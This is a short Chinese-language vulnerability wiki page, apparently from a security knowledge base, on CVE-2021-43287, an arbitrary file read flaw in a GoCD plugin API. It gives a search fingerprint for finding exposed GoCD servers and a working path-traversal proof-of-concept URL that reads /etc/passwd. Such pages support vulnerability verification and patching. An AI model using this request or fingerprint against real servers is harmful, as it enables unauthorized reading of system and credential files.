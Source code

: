 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

<a-checkbox checked>GoCD</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Create a pipeline - Go"</a-checkbox></br>

## 漏洞复现	

主页面

![img](/assets/PeiQi-Wiki/img/1636434942043-e6504dd1-b77e-4e24-b4d9-53721500b5d7.png)

验证POC

```php
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1636435040571-3f50c183-822e-4680-a15c-8d2bf7268161.png)
